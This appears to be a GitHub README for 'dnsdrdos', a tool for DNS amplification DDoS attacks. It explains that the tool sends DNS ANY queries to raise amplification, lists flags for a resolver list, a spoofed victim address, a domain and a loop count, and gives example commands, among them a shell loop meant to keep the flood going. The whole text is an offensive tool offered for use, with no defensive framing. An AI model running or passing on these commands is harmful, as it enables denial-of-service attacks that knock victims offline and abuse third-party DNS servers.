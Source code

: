 # DNS amplification DDOS attack
This is an edited version of the original script of noptrix of nullsecurity.net.
Now the script will send DNS ANY query instead of DNS A query.

DNS ANY query request more data and because of that increase the amplification of the attack

usage:

  dnsdrdos -f <file> [options] | [misc]
    
target:

  -f <file>       - list of dns servers (only one ip-address per line!)
  -s <addr>       - ip-address to spoof (default: 127.0.0.1)
  -d <domain>     - which domain should be requested?
                    (default: "google.com.")
  -l <num>        - how many loops through list? (default: 10000)

misc:

  -V              - show version
  -H              - show help and usage

example:

  ./dnsdrdos -f nameserver.lst -s 192.168.2.211 -d google.com. -l 10000

  or better:

  $ for i in `seq 1 1000`; do ./dnsdrdos -f nameserver.lst -s 192.168.2.211 -d $i -l 10000; done

  This is better, because we ask dynamically for any domain names.
  Even if the domainname is not given, 'we' still would recieve DNS answers.

